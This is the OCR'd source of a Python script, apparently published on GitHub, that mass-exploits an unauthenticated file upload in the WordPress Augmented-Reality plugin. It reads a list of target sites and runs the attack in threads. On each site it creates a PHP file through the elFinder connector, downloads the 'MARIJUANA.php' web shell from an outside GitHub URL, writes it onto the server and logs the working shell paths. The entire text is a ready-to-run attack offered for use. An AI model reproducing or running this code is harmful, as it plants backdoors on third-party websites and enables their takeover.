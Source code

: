 # kimcil
Kalajengking.com
import requests as req import json import sys import random import uuid import urllib.parse import urllib3 from multiprocessing.dummy import Pool as ThreadPool urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning) filename="{}.php".format(str(uuid.uuid4())[:8]) proxies = {} #proxies = { # 'http': 'http://127.0.0.1:8080', # 'https': 'http://127.0.0.1:8080', #} phash = "l1_Lw" r=req.Session() user_agent={ "User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36" } r.headers.update(user_agent) def is_json(myjson): try: json_object = json.loads(myjson) except ValueError as e: return False return True def mkfile(target): data={"cmd" : "mkfile", "target":phash, "name":filename} resp=r.post(target, data=data) respon = resp.text if resp.status_code == 200 and is_json(respon): resp_json=respon.replace(r"\/", "").replace("\\", "") resp_json=json.loads(resp_json) return resp_json["added"][0]["hash"] else: return False def put(target, hash): content=req.get("https://raw.githubusercontent.com/0x5a455553/MARIJUANA/master/MARIJUANA.php", proxies=proxies, verify=False) content=content.text data={"cmd" : "put", "target":hash, "content": content} respon=r.post(target, data=data, proxies=proxies, verify=False) if respon.status_code == 200: return True def exploit(target): try: vuln_path = "{}/wp-content/plugins/augmented-reality/vendor/elfinder/php/connector.minimal.php".format(target) respon=r.get(vuln_path, proxies=proxies, verify=False).status_code if respon != 200: print("[FAIL] {}".format(target)) return hash=mkfile(vuln_path) if hash == False: print("[FAIL] {}".format(target)) return if put(vuln_path, hash): shell_path = "{}/wp-content/plugins/augmented-reality/file_manager/{}".format(target,filename) status = r.get(shell_path, proxies=proxies, verify=False).status_code if status==200 : with open("result.txt", "a") as newline: newline.write("{}\n".format(shell_path)) newline.close() print("[OK] {}".format(shell_path)) return else: print("[FAIL] {}".format(target)) return else: print("[FAIL] {}".format(target)) return except req.exceptions.SSLError: print("[FAIL] {}".format(target)) return except req.exceptions.ConnectionError: print("[FAIL] {}".format(target)) return def main(): print("Wordpress Augmented-Reality Plugin Unauthenticated File Upload exploit by s4ndal.py") threads = input("[?] Threads > ") list_file = input("[?] List websites file > ") print("[!] all result saved in result.txt") with open(list_file, "r") as file: lines = [line.rstrip() for line in file] th = ThreadPool(int(threads)) th.map(exploit, lines) if __name__ == "__main__": main()
